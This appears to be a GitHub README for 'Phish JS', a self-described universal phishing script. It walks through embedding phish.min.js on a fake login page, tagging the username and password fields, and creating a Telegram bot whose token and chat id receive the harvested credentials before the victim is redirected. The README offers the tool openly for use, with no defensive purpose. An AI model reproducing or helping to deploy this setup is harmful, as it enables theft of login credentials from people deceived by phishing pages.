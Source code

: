 <p align="center">
    <img src="https://i.postimg.cc/NG8KJWZ1/external-content-duckduckgo-com.png" alt="logo" width="154" height="154">
</p>

<h2 align="center">Phish JS</h2>

<p align="center">
     Universal phishing script + Telegram bot notification
</p>

[![Privatium](https://img.shields.io/github/license/xbaysal11/privatium)](https://github.com/xbaysal11/phish-js)
[![Github](https://img.shields.io/github/followers/xbaysal11?style=social)](https://github.com/xbaysal11)
[![Privatium](https://img.shields.io/github/stars/xbaysal11/phish-js?style=social)](https://github.com/xbaysal11/phish-js)

---

# Documentation

## 1. Download files or clone
  - [Download files](https://github.com/xbaysal11/phish-js/archive/master.zip).

## 2. Put "phish.min.js" file to your project

## 3. Import "phish.min.js"
```
<script src="phish.min.js"></script>
```

## 4. Import "JQuery"
Via [CDN](https://code.jquery.com/)  is the quickest and easiest way to get JQuery on your website.

```
<script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha256-pasqAKBDmFT4eHoN2ndd6lN370kFiGUFyTiUHWhU7k8=" crossorigin="anonymous"></script>
```

## 5. Set ids to inputs and button

```
<input type="text" id='username'>
<input type="password" id='password'>

<button type="button" id='submit-button'>Login</button>
```

## 6. Get TOKEN and CHAT_ID

 - 1. Create bot with `@BotFather` and copy bot TOKEN
 - 2. Open your bot and type `/start` 
 - 3. Get chat id here:  `https://api.telegram.org/bot<TOKEN>/getUpdates`

## 7. Call function

```
<script>
    $(document).ready(function () {
        const BOT_TOKEN = 'your_bot_token',
            CHAT_ID = 'your_chat_id',
            REDIRECT_URL = 'default_redirect_url'
        phish(BOT_TOKEN, CHAT_ID, REDIRECT_URL);
    });
</script>
```
---

### SPONSORS [[Become a sponsor](https://t.me/xruin)]

[![https://t.me/xruin](https://img.shields.io/badge/sponsors-0-brightgreen)](https://t.me/xruin)

---

### LICENSE

Phish JS is [MIT licensed.](https://github.com/xbaysal11/phish-js/blob/master/LICENSE)
